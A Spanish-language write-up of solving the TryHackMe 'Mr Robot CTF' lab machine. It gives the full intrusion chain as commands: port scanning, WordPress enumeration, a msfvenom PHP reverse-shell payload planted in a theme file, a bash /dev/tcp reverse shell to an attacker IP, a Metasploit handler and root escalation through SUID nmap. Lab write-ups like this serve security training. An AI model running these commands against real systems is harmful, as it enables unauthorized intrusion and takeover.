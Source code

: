 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Medium
  - HTTP
  - FuzzingWeb
  - WordPress
  - CMS
  - ReverseShell
  - PrivilegeEscalation
  - SSH
  - SUID
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#WordPress|WordPress]]
	- [[#Explotación#Reverse Shell|Reverse Shell]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#SSH|SSH]]
		- [[#Escalada de Privilegios#SUID|SUID]]

---
# Resolviendo la máquina Mr Robot CTF

>En esta publicación, comparto cómo resolví la máquina **Mr Robot CTF** de [TryHackMe](https://tryhackme.com/room/mrrobot).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 10.10.185.109`

![[Pasted image 20250726074237.png]]

*TTL=63* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.185.109 -oG allPorts`

![[Pasted image 20250726074318.png]]

`nmap -p22,80,443 -sCV 10.10.185.109`

![[Pasted image 20250726074442.png]]
### HTTP

`http://10.10.185.109/`

![[Pasted image 20250726074649.png]]

`http://10.10.185.109/robots.txt`

![[Pasted image 20250726074714.png]]
#### Fuzzing Web

`gobuster dir -u http://10.10.185.109/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250726075102.png]]

---
## Explotación
### WordPress

`wpscan --url http://10.10.185.109 --enumerate u,vp`

![[Pasted image 20250726075510.png]]
![[Pasted image 20250726075531.png]]

Al no encontrarse ningún usuario, se procede a analizar todos los directorios obtenidos gracias al *fuzzing web*.

Se encuentra información interesante en el directorio: `http://10.10.185.109/license`.

![[Pasted image 20250726075714.png]]

![[Pasted image 20250726075725.png]]

![[Pasted image 20250726075734.png]]

Se encuentra una cadena `ZWxsaW90OkVSMjgtMDY1Mgo=`.

La cadena está cifrada en **Base64**.

`echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d`

![[Pasted image 20250726080012.png]]

Se obtienen las credenciales de acceso: usuario - `elliot` y contraseña - `ER28-0652`.

Se accede al panel de *login* y se introducen el usuario y contraseña obtenidos.

![[Pasted image 20250726080530.png]]

En la sección de *Appearance* tiene instalado *Editor*, que sirve para poder editar archivos.

![[Pasted image 20250726082645.png]]

Se genera un *payload malicioso* en **PHP** para obtener una *reverse shell*.

`msfvenom -p php/reverse_php LHOST=10.8.184.124 LPORT=1234 -f raw > pwned.php`

Se copia y se añade en un archivo, en este caso se añade al *footer.php*.

![[Pasted image 20250726082723.png]]
### Reverse Shell

Se inicia una escucha en el puerto 1234 para recibir la *reverse shell*.

`nc -nlvp 1234`

`bash -c "sh -i >& /dev/tcp/10.8.184.124/1235 0>&1"`

![[Pasted image 20250726082821.png]]

Se inicia nuevamente una escucha en el puerto 1235 para recibir la *reverse shell* y entablar una conexión estable.

`vim handler.rc`

```
use multi/handler
set PAYLOAD php/reverse_php
set LHOST 10.8.184.124
set LPORT 1235
run
```

`msfconsole -r handler.rc`

![[Pasted image 20250726082837.png]]

`background`

`sessions -u 1`

`sessions 2`
### Escalada de Privilegios

![[Pasted image 20250726083118.png]]

Se accede al directorio: `cd /home/robot`

`ls`

![[Pasted image 20250726083200.png]]

Se descarga el archivo: `password.raw-md5`.

`download password.raw-md5`

Se visualiza el archivo descargado.

`cat password.raw-md5`

![[Pasted image 20250726083314.png]]

La contraseña está cifrada en **MD5**.

Se descifra con [MD5Hashing](https://md5hashing.net/).

![[Pasted image 20250726083541.png]]

![[Pasted image 20250726083639.png]]

Ya tenemos usuario: `robot` y contraseña: `abcdefghijklmnopqrstuvwxyz`.
#### SSH

`ssh robot@10.10.185.109`

![[Pasted image 20250726083807.png]]

`ls -la`

![[Pasted image 20250726083938.png]]
#### SUID

Se realiza una búsqueda de permisos **SUID**.

`find / -perm -4000 2>/dev/null`

![[Pasted image 20250726084132.png]]

Se detecta el binario `/usr/local/bin/nmap` con **SUID** activado. Según [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#suid), puede explotarse para obtener una *shell* como *root*.

![[Pasted image 20250726084324.png]]

Se realiza una búsqueda y se encuentra lo siguiente: [Linux Privilege Escalation with Setuid and Nmap](https://www.adamcouch.co.uk/linux-privilege-escalation-setuid-nmap/).

![[Pasted image 20250726084430.png]]

`nmap --interactive`

`!sh`

![[Pasted image 20250726084522.png]]

`cd /root`

`ls`

![[Pasted image 20250726084623.png]]

---

